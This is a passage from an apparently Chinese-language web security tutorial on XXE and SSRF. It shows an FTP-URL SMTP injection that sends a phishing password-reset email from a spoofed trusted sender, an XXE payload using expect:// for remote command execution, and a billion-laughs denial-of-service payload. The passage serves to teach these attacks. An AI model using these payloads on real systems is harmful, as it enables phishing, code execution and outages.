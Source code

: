 当FTP客户端使用此URL连接时，以下命令将会被发送给VULNERABLESYSTEM.com上的邮件服务器：

示例代码：
```
ftp://a
EHLO a
MAIL FROM: <support@VULNERABLESYSTEM.com>
RCPT TO: <victim@gmail.com>
DATA
From: support@VULNERABLESYSTEM.com
To: victim@gmail.com
Subject: Reset your password
We need to confirm your identity. Confirm your password here: http://PHISHING_URL.com
.
QUIT
:support@VULNERABLESYSTEM.com:25
```
这意味着攻击者可以从从受信任的来源发送钓鱼邮件（例如：帐户重置链接）并绕过垃圾邮件过滤器的检测。除了链接之外，甚至我们也可以发送附件。
#实验八：其他：

除了上面实验中的一些常见利用以外还有一些不是很常用或者比较鸡肋的利用方式，为了完整性我在这一节简单的说一下：
1.PHP expect RCE

由于 PHP 的 expect 并不是默认安装扩展，如果安装了这个expect 扩展我们就能直接利用 XXE 进行 RCE

示例代码：
```
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>
```
2. 利用 XXE 进行 DOS 攻击

示例代码：
```
<?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
     <lolz>&lol9;</lolz>
```
五、真实的 XXE 出现在哪

我们刚刚说了那么多，都是只是我们对这个漏洞的理解，但是好像还没说这种漏洞出现在什么地方

如今的 web 时代，是一个前后端分离的时代，有人说 MVC 就是前后端分离，但我觉得这种分离的并不彻底，后端还是要尝试去调用渲染类去控制前端的渲染，我所说的前后端分离是，后端 api 只负责接受约定好要传入的数据，然后经过一系列的黑盒运算，将得到结果以 json 格式返回给前端，前端只负责坐享其成，拿到数据json.decode 就行了（这里的后端可以是后台代码，也可以是外部的api 接口，这里的前端可以是传统意义的前端，也可以是后台代码）
